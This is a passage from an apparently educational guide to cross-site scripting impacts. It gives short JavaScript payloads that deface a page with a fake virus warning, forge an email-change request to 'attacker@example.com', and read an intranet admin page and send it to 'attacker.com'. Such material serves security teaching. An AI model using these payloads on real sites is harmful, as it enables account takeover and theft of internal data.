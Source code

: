 Attackers can use XSS to insert malicious content into a website, such as unwanted ads, malware download links, or fake forms to collect personal information.

**For example:**
```javascript
<script>
document.body.innerHTML = '<h1>Your system is infected with a virus! Download the antivirus tool here.</h1><a href="http://malicious-site.com">Download</a>';
</script>
```
This code will change the content of the website to display fake messages and malicious links.

<a name="performing-actions-on-users-behalf-session-hijacking"></a>
### 4. Performing Actions on User's Behalf (Session Hijacking)

An attacker can use XSS to perform actions on the user's behalf, such as sending messages, posting, or changing account settings without the user's knowledge.

**For example:**
```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://example.com/api/change-email", true);
xhr.setRequestHeader("Content-Type", "application/json");
xhr.send(JSON.stringify({
 email: "attacker@example.com"
}));
</script>
```
This code will send a request to change the user's email address without their permission.

<a name="attack-on-internal-network-intranet"></a>
### 5. Attack on Internal Network (Intranet)

If an attacked user is connected to an organization's internal network (intranet), an attacker can use XSS to access and attack services and devices within that internal network.

**For example:**
```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://intranet.local/admin", true);
xhr.onreadystatechange = function() {
 if (xhr.readyState == 4 && xhr.status == 200) {
 // Send collected data to the attacker's server
 var img = new Image();
 img.src = "http://attacker.com/steal-data?data=" + xhr.responseText;
 }
};
xhr.send();
</script>
```
This code sends a request to an internal admin page and sends the collected data to the attacker's server.
